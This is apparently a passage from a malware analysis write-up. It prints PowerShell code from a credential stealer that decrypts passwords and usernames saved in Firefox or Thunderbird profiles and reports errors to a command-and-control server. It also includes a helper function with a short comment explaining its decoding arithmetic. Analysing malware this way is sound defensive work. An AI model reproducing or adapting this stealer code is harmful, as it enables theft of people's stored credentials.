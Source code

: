 ```csharp
                                        for($i = 0; $i -le $count; $i++)
                                        {
                                            $formUrl = $logins.GetValue($i)['formSubmitURL']
                                            if($formUrl -eq $null) 
                                            {
                                                $formUrl = $logins.GetValue($i)['hostname']							
                                                if($formUrl -eq $null) { $formUrl = "empty" }
                                            }
                                            #Get informations of the profile
                                            if(($formUrl.StartsWith("smtp","CurrentCultureIgnoreCase")) -Or ($formUrl.StartsWith("pop","CurrentCultureIgnoreCase")) -Or ($formUrl.StartsWith("imap","CurrentCultureIgnoreCase"))) { $url = ([System.Uri]$formUrl).Host}
                                            else
                                            {
                                                $url = ([System.Uri]$formUrl).Host
                                                if($url.Length -eq 0) { $url = "empty" }
                                            }    
                                            $encPwd = $logins.GetValue($i)['encryptedPassword']
                                            $encUser = $logins.GetValue($i)['encryptedUsername']
                                            if($encPwd.Length -gt 0 -and $encUser.Length -gt 0) 
                                            {
                                                $pass = [Stiller]::decodeData($defaultProfile, $encPwd, [System.Convert]::FromBase64String($encPwd))
                                                $user = [Stiller]::decodeData($defaultProfile, $encUser, [System.Convert]::FromBase64String($encUser))
                                                if($ffInfo[$url] -eq $null) { $ffInfo[$url] = @() }
                                                $ffInfo[$url] += @{ [string]$user = [string]$pass }
                                            }
                                        }
                                        [Stiller]::shutdownFF()
                                    }
                                }
                        }
                        else{ $ffError = "NO PROFILE";	}
                    }
                }
            }
            else{ $ffError = "NO ff\TB";  }
        }
        return @{"logs" = "$global:log"; "error" = $ffError; "info" = $ffInfo}
    }
    catch{ SendStringToC2 "crederror=ERR:ff_dump: $($_.Exception.Message)";}
}
```

<h6>The next functions are used for decode the value of each character by mathematical operations (power of 2, XOR, floor the resulting value).</h6>

```csharp
Function __ToInt($ByteArray)
{   
  try
  { 
    If ($ByteArray.Length -eq 0) { Return 0 } # No data exception
    [int32] $i = 0;
    $x = 0;
    Do { $i = [math]::Floor($i * [math]::Pow(2, 0x8)) -bor ($ByteArray[$x++]) }  # Pow 2,8 -> 2^8 -> 256 + Xor by value of the Array
    While ($x -lt $ByteArray.Length) # Parse all the array
    Return $i; # Return final interger
  }
  catch{ SendStringToC2 "crederror=ERR:__ToInt: $($_.Exception.Message)"; }
}
```